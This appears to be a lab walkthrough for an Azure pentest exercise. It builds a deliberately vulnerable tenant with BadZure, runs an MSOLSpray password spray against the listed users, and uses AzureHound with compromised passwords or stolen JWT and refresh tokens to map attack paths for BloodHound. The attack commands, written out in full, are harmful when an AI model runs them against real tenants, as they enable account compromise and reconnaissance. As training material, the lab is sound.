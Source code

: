 
### References
* https://github.com/mvelazc0/BadZure/
* https://www.youtube.com/watch?v=7IdyU7tQgww

### Pre-Requisites
1. Deploy Azure PenTest VM
* https://github.com/davidokeyode/azure-cloudsec-practitioner/tree/main/pentest-vm-win
* https://davidokeyode.medium.com/azure-cloudsec-practitioner-series-1-deploying-an-azure-pentest-vm-f65adbc40edb

2. You are logged into the Azure PenTest VM

### Prepare the environment
1. Verify Dependencies
```
Get-Module Microsoft.Graph -ListAvailable
Get-Module Azure -ListAvailable
```

2.  Connect to Azure and Microsoft Graph
```
Connect-AzAccount
Connect-MgGraph
```

3. Import the BadZure Script
```
cd $env:SystemDrive\PentestTools\Azure\VulnerableEnv\BadZure
. ./Invoke-BadZure.ps1

Invoke-BadZure -Build -Password "W8&x2N78T0" -Verbose
```

3b. Enable MFA for some users (to be used to test MSOLSpray MFA detection later)
* Disable some user accounts
* Add non-existent user account to the file


4. Make note of the username and password for the three attack paths
![Attack Path Output](image.png)

5. Review populated users
```
ls
notepad users.txt
```

### Run MSOLSpray to simulate a password spray attack
1. Import the MSOLSpray module
```
cd $env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray
Import-Module .\MSOLSpray.ps1
```

2. Copy the users.txt file from the BadZure directory to the MSOLSpray directory
* This contains a list of users that will be targets for the password spray attack
```
Copy-Item -Path "$env:SystemDrive\PentestTools\Azure\VulnerableEnv\BadZure\users.txt" -Destination "$env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray"
```

3. Run MSOLSpray
```
Invoke-MSOLSpray -UserList .\users.txt -Password "PASSWORD_FROM_THE_ATTACK_PATH_OUTPUT" -Verbose -OutFile .\sprayresults.txt
```

4. View the result
* Notice that the user with the password from the attack path output was compromised
```
notepad sprayresults.txt
```

### Run AzureHound to gather tenant information
* https://github.com/BloodHoundAD/AzureHound

1. Switch to the AzureHound directory
```
cd $env:SystemDrive\PentestTools\Azure\Attack\AzureHound
```

2. Collect Azure tenant data into a JSON file
* We can either authenticate using a username and password - **`-u username -p password`**
  * Use this option if a user cred is compromised and MFA is not detected
* OR we can authenticate using an acquired JSON Web Token (JWT) - **`-j`**, **`--jwt`**

* OR we can authenticate using a refresh token **`-r`**, **`--refresh-token`**
  * Use this option if MFA is detected for the user
  Use this option if a user device is compromised with an already authenticated user
  * 

```
./azurehound -u "USERNAME" -p "PASSWORD_FROM_THE_ATTACK_PATH_OUTPUT" list groups --tenant "TENANT_NAME_OR_TENANT_ID" -o azurehound-output.json

./azurehound -j "ey..." list users --tenant "contoso.onmicrosoft.com"
```

### Analyze the output of AzureHound using BloodHound
* This identifies attack paths

1. Upload the output from AzureHound into BloodHound





















